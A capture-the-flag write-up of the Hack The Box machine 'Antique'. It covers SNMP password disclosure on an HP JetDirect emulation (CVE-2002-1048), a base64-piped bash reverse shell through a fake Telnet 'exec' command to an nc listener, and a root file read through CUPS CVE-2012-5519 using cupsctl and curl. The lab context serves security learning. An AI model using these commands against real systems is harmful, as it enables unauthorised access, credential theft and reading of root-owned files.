


+++
title = "Antique"
date = "2023-12-14"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-09-27

**Created by**: [MrR3boot](https://app.hackthebox.com/users/13531)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.107`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Antique using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.107" -p-
```

```
<SNIP>
PORT   STATE SERVICE
23/tcp open  telnet
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.107" --top-ports "500"
```

```
<SNIP>
PORT    STATE SERVICE
161/udp open  snmp
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the service associated
with the open TCP port we found.

```sh
❯ nmap -sS "10.10.11.107" -p "23" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.11.107" -p "161" -sV
```

```
<SNIP>
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
<SNIP>
```

### Scripts

Let's run `nmap`'s default scripts on the TCP service to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.107" -p "23" -sC
```

```
<SNIP>
PORT   STATE SERVICE
23/tcp open  telnet
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.11.107" -p "161" -sC
```

```
<SNIP>
PORT    STATE SERVICE
161/udp open  snmp
<SNIP>
```

## Services enumeration

### Telnet

Let's try to connect to Antique over Telnet.

```sh
❯ telnet "10.10.11.107"
```

```
<SNIP>
HP JetDirect

Password:
```

Predictably, we're asked for a password. However, there seems to be a custom
banner: 'HP JetDirect'. What could it mean?

Anyways, let's use `hydra` with
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt)
to try common Telnet credentials.

```sh
❯ hydra -C "/usr/share/wordlists/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt" "10.10.11.107" "telnet"
```

```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed.

### SNMP

#### Community string

Since SNMP is using version `1`, it relies on a community string to manage
authentication and control access to network devices. Therefore, we have to
determine the community string to proceed with SNMP's enumeration.

One of our previous scan revealed that the `snmp` service was using
`SNMPv1 server (public)`. The `public` part is really interesting, as this is
also a common default community string indicating that we have a read-only
access to the data!

If we try to run SNMP-related commands with this community string, we see that
they succeed! In fact, every community string is valid.

#### Dumping MIB

Let's retrieve the values associated with the objects stored on Antique's SNMP
MIB.

```sh
❯ snmpwalk "10.10.11.107" -v1 -c "public"
```

```
<SNIP>
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

It returned a single OID: `iso.3.6.1.2.1`. Its value is set to the string 'HTB
Printer'.

Remember the output we got when we tried to connect to Antique over Telnet? It
was 'HP JetDirect'. This really sounds like a printer technology! And if we
search online, it turns out that this is indeed the case:

> HP Jetdirect is the name of a technology sold by Hewlett-Packard that allows
> computer printers to be directly attached to a local area network.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/JetDirect)

Therefore, it's safe to assume that Antique is using a HP JetDirect printer.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `HP JetDirect`, we
find
[HP Jetdirect - Path Traversal Arbitrary Code Execution (Metasploit)](https://www.exploit-db.com/exploits/45273)
([CVE-2017-2741](https://nvd.nist.gov/vuln/detail/CVE-2017-2741)).

That looks like a great way to get a foothold, but unfortunately this box is not
vulnerable to it. Back to [ExploitDB](https://www.exploit-db.com/), we also find
[HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure](https://www.exploit-db.com/exploits/22319)([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048)).

#### Password disclosure ([CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048))

[CVE-2002-1048](https://nvd.nist.gov/vuln/detail/CVE-2002-1048) is a
vulnerability affecting HP JetDirect printers. It allows attackers to obtain the
administrative password for the web and the Telnet services by querying specific
OIDs.

##### Exploitation

This CVE is easy to exploit, we just need to retrieve the value of the OID
`.1.3.6.1.4.1.11.2.3.9.1.1.13.0`.

```sh
❯ snmpwalk "10.10.11.107" -v1 -c "public" ".1.3.6.1.4.1.11.2.3.9.1.1.13.0"
```

```
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Okay, so now we have a series of hexadecimal values corresponding to the
password.

Let's use this Python script to decode it:

```py
# Save the hex-encoded string
numbers = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"

# Split the initial string into separate hex values
array = numbers.split(" ")

# Convert each hex value to its corresponding ASCII character
characters = [chr(int(hex_value, 16)) for hex_value in array]

# Join the characters to form the final string
result_string = "".join(characters)

# Show the result
print(result_string)
```

I'll save it as `/workspace/decoder.py`, and I'll execute it:

```sh
❯ python3 /workspace/decoder.py
```

```
P@ssw0rd@123!!123       ▒"#%&'01345789BCIPQTWXaetuyăĆđĔĕęĢģĦİıĴĵ
```

Alright, so the first part of the output looks like a password, and the second
part is gibberish. Let's focus on the first part then!

## Foothold (Telnet)

Back to Telnet, let's try to connect using `P@ssw0rd@123!!123` as the password.

```sh
❯ telnet "10.10.11.107"
```

```
<SNIP>
Password: P@ssw0rd@123!!123

Please type "?" for HELP
>
```

It worked!

### Getting a shell

We didn't get a real shell though. If we enter `?` as suggested to get a help
message, we see that we can execute commands with `exec`.

Let's use this to get a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

Therefore, after logging in to Antique over Telnet, the command we should enter
to execute our reverse shell payload is:

```sh
exec "/bin/bash" -c "/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i"
```

Let's try it in practice.

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.107] 47878
<SNIP>
lp@antique:~$
```

It caught the reverse shell!

### Spawning a pty

Let's use this one-liner to spawn a pty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `lp`.

### Architecture

What is Antique's architecture?

```sh
lp@antique:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Antique is using.

```sh
lp@antique:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Antique.

```sh
lp@antique:~$ uname -r
```

```
5.13.0-051300-generic
```

It's `5.13.0`.

### Users

Let's enumerate all users.

```sh
lp@antique:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
root
```

There's only `root`.

### Groups

Let's enumerate all groups.

```sh
lp@antique:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
kvm
landscape
list
lp
lpadmin
lxd
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
render
root
sasl
shadow
src
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
lp@antique:~$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.107  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:ed74  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:ed74  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:ed:74  txqueuelen 1000  (Ethernet)
        RX packets 72  bytes 6432 (6.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 101  bytes 8149 (8.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2  bytes 176 (176.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2  bytes 176 (176.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Antique's hostname?

```sh
lp@antique:~$ hostname
```

```
antique
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check the home folders, we find one for `lp` (us), even though we're not a
real user. If we check our fake home folder, we find the user flag.

```sh
lp@antique:~$ cat "/home/lp/user.txt"
```

```
6efd213a4a89a91bcda294bdf5b276dd
```

### Exploring `/var/spool/lpd`

If we explore our real home folder though, we find the user flag we jsut
retrieved, but also a `telnet.py` file.

```py
<SNIP>

HOST = "0.0.0.0"
PORT = 23

def threaded(conn):
    conn.send(welcome_message)
    conn.recv(1024)
    conn.send(b"Password: ")
    if b"P@ssw0rd@123!!123" in conn.recv(1024):
        conn.send(b'\nPlease type "?" for HELP\n')
        while True:
            conn.send(b"> ")
            data = conn.recv(1024)
            if b"?" in data:
                conn.send(options)
            elif b"exec" in data:
                cmd = data.replace(b"exec ", b"")
                cmd = cmd.strip()
                os.chdir("/var/spool/lpd")
                p = subprocess.Popen(
                    [f'{cmd.decode("utf-8")}'],
                    shell=True,
                    stdout=subprocess.PIPE,
                    stderr=subprocess.PIPE,
                )
                stdout, stderr = p.communicate()
                if stdout:
                    conn.send(stdout)
            elif b"exit" in data:
                conn.close()
            else:
                conn.send(b"Err updating configuration\n")
    else:
        conn.send(b"Invalid password\n")
        conn.close()

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen()
    while True:
        conn, addr = s.accept()
        start_new_thread(threaded, (conn,))
    s.close()
```

This is probably the script used to simulate the Telnet server. It gives us
insights into Antique's inner workings: it's responsible for printing the custom
banner, checking the password, and handling the subsequent actions the user may
want to perform. It's a fake Telnet server, this is why we got a pseudo-shell
while connecting using Telnet!

That's a great finding, but this won't help us reaching `root`.

### Listening sockets

Let's list all the listening TCP sockets along with the processes using them:

```sh
lp@antique:~$ ss -tlnp
```

```
State     Recv-Q    Send-Q    Local Address:Port    Peer Address:Port    Process                                                                         
LISTEN    0         128             0.0.0.0:23           0.0.0.0:*        users:(("python3",pid=1021,fd=3))                                              
LISTEN    0         4096          127.0.0.1:631          0.0.0.0:*                                                                                       
LISTEN    0         4096              [::1]:631             [::]:*
```

Apparently, there's a service listening locally on port `631`... what could it be?

```sh
lp@antique:~$ cat "/etc/services" | grep -E '\b631/tcp\b'
```

```
ipp             631/tcp                         # Internet Printing Protocol
```

So this port is used to manage printers...

## Services enumeration

### CUPS

#### Fingerprinting

Let's use `nc` to interact with this mysterious service.

```sh
lp@antique:~$ nc "127.0.0.1" "631"
```

```
hello?
HTTP/1.0 400 Bad Request
Date: Thu, 08 Feb 2024 17:42:57 GMT
Server: CUPS/1.6
Content-Type: text/html; charset=utf-8
Content-Length: 346

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Bad Request - CUPS v1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
</HEAD>
<BODY>
<H1>Bad Request</H1>
<P></P>
</BODY>
</HTML>
```

If we enter a random input, we receive an HTTP response.

I'll setup a remote port forwarding using `chisel` to make it available on my
own machine.

#### Exploration

Let's browse to `http://127.0.0.1:631/`.



It's the default installation page for CUPS! What's that?

> CUPS (...) is a modular printing system for Unix-like computer operating
> systems which allows a computer to act as a print server. A computer running
> CUPS is a host that can accept print jobs from client computers, process them,
> and send them to the appropriate printer.
>
> — [Wikipedia](https://en.wikipedia.org/wiki/CUPS)

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


Nothing.

However, the header of the homepage indicates that CUPS is version `1.6.1`.

#### Exploration

I browsed around a bit looking for any functionalities I could exploit to get
`root`, but I found none.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for
`CUPS 1.6`, we find nothing. However, if we search online, we find the
[CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519).

## Privilege escalation ([CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519))

[CVE-2012-5519](https://nvd.nist.gov/vuln/detail/CVE-2012-5519) is a
vulnerability in CUPS versions prior to `1.6.2`. CUPS allows members of the
`lpadmin` group to make changes to the `cupsd.conf` configuration, which can
specify an `Error Log` path. When the user visits the 'Error Log' page in the
web interface, the `cupsd` daemon (running as `root`) reads the `Error Log` path
and echoes it as plaintext. This allows an attacker to read arbitrary files on
the system.

### Checks

Let's check if we're a member of the `lpadmin` group.

```sh
lp@antique:~$ groups
```

```
lp lpadmin
```

We are!

### Preparation

The Metasploit module `post/multi/escalate/cups_root_file_read` can be used to
exploit this vulnerability, but it's easy to do manually.

Usually I'd exploit an arbitrary file reading vulnerability to get SSH keys in
order to get a reverse shell, but unfortunately SSH isn't installed on this
system. Therefore, I'll simply retrieve the root flag, which is always located
at `/root/root.txt` (which is not a privilege escalation per-say, so you could
argue that it's miscategorized and you'd be right).

### Exploitation

Let's use `cupsctl` to set the `ErrorLog` path to the root flag.

```sh
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
```

Then, let's fetch the content of the 'Error Log' page so that the `cupsd` daemon
echoes the content of `/root/root.txt`.

```sh
lp@antique:~$ curl -s "http://127.0.0.1:631/admin/log/error_log"
```

```
56eee459902284df2c4da87a7eeb3623
```

# Afterwords



That's it for this box! 🎉

I rated both the user and root flags as 'Easy' to obtain. It was easy to
identify the vulnerable services, since there's only two of them exposed on this
box, but harder to find the relevant exploits to get a foothold. The 'privilege
escalation' was the same, it was quite easy to find the vulnerable service but
difficult to find an exploit (it wasn't really a privilege escalation too, since
we only retrieve the root flag without obtaining a reverse shell).

Thanks for reading!
